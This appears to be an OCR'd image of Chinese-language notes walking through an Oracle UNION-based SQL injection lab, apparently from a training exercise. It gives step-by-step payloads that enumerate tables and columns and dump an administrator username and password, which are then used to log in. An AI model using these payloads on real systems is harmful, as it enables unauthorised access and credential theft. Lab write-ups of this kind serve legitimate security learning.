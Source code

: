 ①确定列数  dual
②找到显示位 
③确定数据库类型
④找到表名
```SQL
' UNION SELECT table_name,NULL FROM all_tables--
```
USERS_CVTECL
⑤找到列名
```SQL
' UNION SELECT column_name,NULL FROM all_tab_columns where table_name = 'USERS_CVTECL'--
```
USERNAME_WCSLVG PASSWORD_RCXLBG
⑥取到账号和密码
```SQL
' UNION SELECT USERNAME_WCSLVG,
PASSWORD_RCXLBG FROM USERS_CVTECL--
```
administrator
w748x46ej0bjvk1uhp0e
⑦登录